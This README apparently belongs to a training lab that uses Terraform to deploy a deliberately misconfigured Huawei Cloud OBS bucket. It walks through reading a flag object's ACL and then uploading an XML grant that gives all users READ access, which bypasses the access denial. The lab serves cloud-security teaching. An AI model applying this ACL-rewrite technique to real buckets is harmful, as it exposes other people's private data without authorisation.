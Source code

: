 # Huawei Cloud OBS object ACL writable vulnerability environment

English | [中文](./README_CN.md)

## Description

This is a vulnerability environment scenario for building HUAWEI CLOUD Object ACL.

After you build an environment with Terraform, users can read data that would otherwise not be read by modifying object's ACL policy.

## Deployment Environment

run in a container

```shell
cd /TerraformGoat/huaweicloud/object_storage_service/object_acl_writable/
```

Edit the `terraform.tfvars` file and fill in the file with your `huaweicloud_access_key` and `huaweicloud_secret_key`.

> The access key can be found in HUAWEI CLOUD [Console --> My Credentials]

```shell
vim terraform.tfvars
```

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

![image](../../../images/1650779200.png)

After the environment is set up, you can see the created Bucket at Outputs.

This Bucket has Object ACL read and write permissions, and the Object Key is the flag.

## Vulnerability Utilization

Try to read the flag file and find that it prompts access denied.

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```

![image](../../../images/1650779408.png)

Attempt to read the ACL policy of the flag file and found that it can be read.

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag?acl
```

![image](../../../images/1650779592.png)

Try to use the PUT method to upload the Object ACL policy of the flag file, add the following policy to the original policy, and find that it can be uploaded.

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ</Permission>
</Grant>
```

![image](../../../images/1650779871.png)

Try to read the flag file again, you can see that the flag file was successfully read.

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```

![image](../../../images/1650780002.png)

## Destroy the environment

```shell
terraform destroy
```
